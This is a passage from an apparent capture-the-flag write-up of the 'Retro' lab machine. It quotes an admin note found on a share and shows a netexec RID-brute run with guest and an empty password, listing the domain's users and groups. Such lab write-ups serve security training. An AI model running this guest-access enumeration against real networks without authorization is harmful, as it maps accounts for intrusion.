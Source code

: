 Upon downloading the file and reading it, we find the following message

```powershell
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```

This might be important for later.

I was not able to use the `--users` option to enumerate available users, but `RIDCycling` was allowed.

```powershell
└─$ netexec smb dc.retro.vl -u guest -p "" --rid-brute > rid-brute.txt
                                                                                                                                                                        
┌──(kali㉿kali)-[~/htblabs/Windows/Retro]
└─$ cat rid-brute.txt                                                 
SMB                      10.129.26.138   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB                      10.129.26.138   445    DC               [+] retro.vl\guest: 
SMB                      10.129.26.138   445    DC               498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB                      10.129.26.138   445    DC               500: RETRO\Administrator (SidTypeUser)
SMB                      10.129.26.138   445    DC               501: RETRO\Guest (SidTypeUser)
SMB                      10.129.26.138   445    DC               502: RETRO\krbtgt (SidTypeUser)
SMB                      10.129.26.138   445    DC               512: RETRO\Domain Admins (SidTypeGroup)
SMB                      10.129.26.138   445    DC               513: RETRO\Domain Users (SidTypeGroup)
SMB                      10.129.26.138   445    DC               514: RETRO\Domain Guests (SidTypeGroup)
SMB                      10.129.26.138   445    DC               515: RETRO\Domain Computers (SidTypeGroup)
SMB                      10.129.26.138   445    DC               516: RETRO\Domain Controllers (SidTypeGroup)
SMB                      10.129.26.138   445    DC               517: RETRO\Cert Publishers (SidTypeAlias)
SMB                      10.129.26.138   445    DC               518: RETRO\Schema Admins (SidTypeGroup)
SMB                      10.129.26.138   445    DC               519: RETRO\Enterprise Admins (SidTypeGroup)
SMB                      10.129.26.138   445    DC               520: RETRO\Group Policy Creator Owners (SidTypeGroup)
SMB                      10.129.26.138   445    DC               521: RETRO\Read-only Domain Controllers (SidTypeGroup)
SMB                      10.129.26.138   445    DC               522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
SMB                      10.129.26.138   445    DC               525: RETRO\Protected Users (SidTypeGroup)
SMB                      10.129.26.138   445    DC               526: RETRO\Key Admins (SidTypeGroup)
SMB                      10.129.26.138   445    DC               527: RETRO\Enterprise Key Admins (SidTypeGroup)
SMB                      10.129.26.138   445    DC               553: RETRO\RAS and IAS Servers (SidTypeAlias)
SMB                      10.129.26.138   445    DC               571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
```